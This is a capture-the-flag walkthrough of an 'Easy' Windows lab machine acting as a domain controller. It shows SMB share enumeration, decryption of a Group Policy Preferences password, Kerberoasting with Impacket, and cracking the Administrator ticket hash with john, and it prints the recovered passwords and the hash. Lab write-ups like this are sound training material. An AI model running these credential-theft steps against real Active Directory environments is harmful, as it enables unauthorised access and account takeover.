<div style="display: flex; justify-content: center; align-items: center;">

  <div style="margin-right: 20px;">
    
  </div>

  <div style="display: flex; flex-direction: column; text-align: left;">
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">OS:</strong>
      
      <span style="margin-left: 5px;">Windows</span>
    </div>
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">Difficulty:</strong>
      <span>Easy</span>
    </div>
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">Author:</strong>
      <span>eks & mrb3n</span>
    </div>
    <div style="display: flex; align-items: center;">
      <strong style="margin-right: 5px;">Release Date:</strong>
      <span>July 28, 2018</span>
    </div>
  </div>

</div>


## Recon

### nmap

``` bash
$ nmap -sC -sV 10.10.10.100
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-05 21:32 WET
Nmap scan report for 10.10.10.100
Host is up (0.059s latency).
Not shown: 982 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-11-05 21:37:17Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49165/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   210: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-11-05T21:38:15
|_  start_date: 2023-11-05T21:16:04

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 356.13 seconds
```

## Foothold

### SMB

If we list all shares, we can see that the share 'Replication' can be read without a login

``` bash
$ smbmap -H 10.10.10.100
```


By exploring the Replication share, we can find Groups.xml in the following directory

> \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml

``` bash
$ smbclient //10.10.10.100/Replication
cd active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\
get Groups.xml
```
### gpp-decrypt
We can now open the file in our local machine.
And we can find the user SVC_TGS and it's encrypted password


|   User  |                                     Hashed Password                                    |
|:-------:|:--------------------------------------------------------------------------------------:|
| SVC_TGS | edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ |

We can decrypt the password with gpp-decrypt
``` bash
$ gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```

|   User  |          Password          |
|:-------:|:--------------------------:|
| SVC_TGS | GPPstillStandingStrong2k18 |

### user.txt flag

With the obtained login, we now have access to more shares
``` bash
$ smbmap -u SVC_TGS -p GPPstillStandingStrong2k18 -H 10.10.10.100
```


Now just get the user flag from SVC_TGS desktop

``` bash
$ smbclient //10.10.10.100/Users --user=active.htb/SVC_TGS
cd SVC_TGS\Desktop
get user.txt
```



## PrivEsc

### AD Enumeration

We can use [Impacket](https://github.com/fortra/impacket) to enumerate the AD and get the Administrator's password

First we can use GetUserSPNs.py to list all users in the AD
``` bash
$ GetADUsers.py -all active.htb/SVC_TGS -dc-ip 10.10.10.100
```


Now we can use GetUserSPNs.py to see if any users are configured with a Service Principal Name (SPNs), which if they are, can be exploited to get their hashed passwords.
``` bash
$ GetUserSPNs.py active.htb/SVC_TGS -dc-ip 10.10.10.100
```


Administrator has been configured with SPN, so we can request the hashed password
``` bash
$ GetUserSPNs.py active.htb/SVC_TGS -dc-ip 10.10.10.100 -request
```


Hashed Administrator Password:
``` text
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$99a9dd2db5d42506d58d00a78e8a1a7f$02c3c483293fda1b6a78db5e73aaca413e25ec0e460649af4fd59973db4e23a386f9a08e4b16fd3dd658c2b93a4ecb691f709199a2e118b5eb024a0a71f4897f49fd9870e2d779914d4c2d803fcbe21f0169d3e4fe033cddc5ec738a5075f63b8e15433533bd91bc2137e1da914bef6646d800cae2a222d20e861d9f92e52fa7d7574b35be5fb38687cc5fb05dd694f54ec35a7090ec2e33596eec5592591e2c5fba102767afd0996fa40dc5ea56f97fdcb95d8856ff56b86c7e47fe27a54417211857ae991d75ac02ad72691fa5c0da60dc8dfb5680b795e49560dcb486ad84cb97d926fac1f4221fe25020c18686859e5d47ef1e47cf5644a2b96468d153bef80db6b5a55b14ccc50b972999c085b5599c0f8cafb829b733f4e6395621b112faa4c94d2a586efc235eb8cc5d4cf391ea9342aa37d0999e5a2f179a32d3a978fbc3cd1d432ea90f49bc6b7cec56c17764b9d8c6b738fa086ba9f0d1b6ccf07e88b340b16e1eeec43769649ef2b7575fab3dbfbe6c85ac29d7419c2bb4dae3f8e473e0e27f82d67a5159c65aaeddc666b9536f29bfdee6009e86c40786b56a4bedb4e8d0d62ccc904fba4741259a0a77dc5215f8274c482df2dfd21c057e22059a0da31ab4f7f7944926cf716fd5813fb555a1d2958c8785c2dc9d0adac347f1d667cb1d5736a5a5e6d8ca6927cfb69282348f574c79a41d09fcaf2012989006f36a54ff8255ba2febf22fe3d1db9f9440af840b1af1f794b7fddfe6a4e3f14f3e2cd147598c849674dedba85cffa181e6712a42c7c5104d0f5e827760f55f2cd321ad7e3e28eba49b35bcd115c62fe230f4f71f2834a308f87d77fd05525c41e2133c5aedf0314258493181bf54f5f16a6cefcd229553642c003414e8ade1b2720c696d6d37f9a4697765307cf9f5e5b3952b96ef8268bb84ccfc1562425915f88b412113c6d17665485c5a7e6192076941e7ad4b1c2ddc1f7c55c113603273beb788b5a31b9b872116729aeafed43828a8f7ef60604623da7dda0bb0226a80529654c24b47a71501360726ba64037a2bdaa462aa0fdcea2d4dbc3d9a68e65e332f4848784ad8f4cc78e8655d0bd3916eeed0c5b50ded80b4bef1dabadb18a6231faec50484942df4c137ee0157b3fb0b6fefcf5ab8ffe3cb1cc50ebb597e48d22b9492928c778bac322b33cc6c7d803d6943edb0b4ea2b79874adcb0eafece41d66114c047d5d946216a56875754c188bc898873261a174ae0
```

Paste the hash into a .txt file and use john to decrypt it
``` bash
$ john --format=krb5tgs hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```


|      User     |     Password     |
|:-------------:|:----------------:|
| Administrator | Ticketmaster1968 |

### root.txt flag

With the Adminstrator login, we can get the root flag
``` bash
$ smbclient //10.10.10.100/Users --user=active.htb/Administrator
cd Administrator\Desktop\
get root.txt
```

